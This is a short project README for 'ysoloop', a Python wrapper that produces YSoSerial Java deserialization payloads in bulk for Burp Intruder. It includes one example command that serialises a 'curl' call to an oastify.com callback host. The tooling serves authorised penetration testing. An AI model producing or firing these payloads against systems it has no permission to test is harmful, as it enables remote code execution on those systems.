 # ysoloop
Utilities for insecure serialization

This repository was created for script utilities for exploiting insecure serializations.

YsoLoop.py is intended to generate all payloads that can be used in the insecure serialization exploitation process. It uses "wordlist.txt", which is a base for all possible YSoSerial payloads.

With the output of this script, it is possible to use it as a payload in tools such as Intruder (BurpSuite), or custom scripts.

Usage recommendation:
**python3 YsoLoop.py > payloads.txt**

Ps.1: To run the script, it must be located in the same directory as "ysoserial-all.jar" e a "wordlist.txt"
    - Link Ysoserial: https://github.com/frohoff/ysoserial/releases
Ps.2: The payload command must be adjusted. Ex: base_command = "java -jar ysoserial-all.jar {} 'curl http://abcdefghijklm.oastify.com' | base64 -w0"

*Script still in the process of being improved.


Credits: https://github.com/frohoff/ysoserial

